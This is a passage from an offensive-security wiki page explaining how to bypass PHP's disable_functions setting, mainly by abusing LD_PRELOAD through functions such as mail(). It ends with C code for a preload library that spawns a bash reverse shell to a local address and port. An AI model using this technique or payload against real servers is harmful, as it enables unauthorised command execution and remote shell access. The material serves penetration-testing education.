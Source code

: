 {% hint style="warning" %}
You may be thinking that just in the same way we have overwritten `open_basedir` configuration we can **overwrite `disable_functions`**. Well, try it, but it won't work, apparently **`disable_functions` can only be configured in a `.ini` php** configuration file and the changes you perform using PHP\_VALUE won't be effective on this specific setting.
{% endhint %}

## disable\_functions Bypass

If you manage have PHP code executing inside a machine you probably want to go to the next level and **execute arbitrary system commands**.  In this situation is usual to discover that most or all the PHP **functions** that allow to **execute system commands have been disabled** in **`disable_functions`.**\
So, lets see how you can bypass this restriction (if you can)

### Automatic bypass discovery

You can use the tool [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) and it will indicate you which technique you can use to bypass `disable_functions`.

### Bypassing using other system functions

Just return to the begging of this page and **check if any of the command executing functions isn't disabled and available in the environment**. If you find just 1 of them, you will be able to use it to execute arbitrary system commands.

### LD\_PRELOAD bypass

It's well known that some functions in PHP like `mail()`are going to **execute binaries inside the system**. Therefore, you can abuse them using the environment variable `LD_PRELOAD` to make them load an arbitrary library that can execute anything.

#### Functions that can be used to bypass disable\_functions with LD\_PRELOAD

1. `mail`
2. `mb_send_mail` : If your system has `php-mbstring` module installed then this function can be used to bypass php disable\_functions.
3. `imap_mail` : If your system has `php-imap` module installed then this function also can be used to bypass the php disable\_functions.
4. `libvirt_connect` : If your system has `php-libvirt-php` module installed then this function also can be used to bypass disable\_functions.
5. `gnupg_init` : If your system has `php-gnupg` module installed then this function also can be used to bypass disable\_functions.
6. `new imagick()`: You can [**find here a writeup**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/) to learn how to abuse this class

You can find [**here**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) the fuzzing script that was used to find those functions.

Here is a library you can compile to abuse the `LD_PRELOAD` env variable:

```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
	unsetenv("LD_PRELOAD");
	system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
	return 1;
}
```
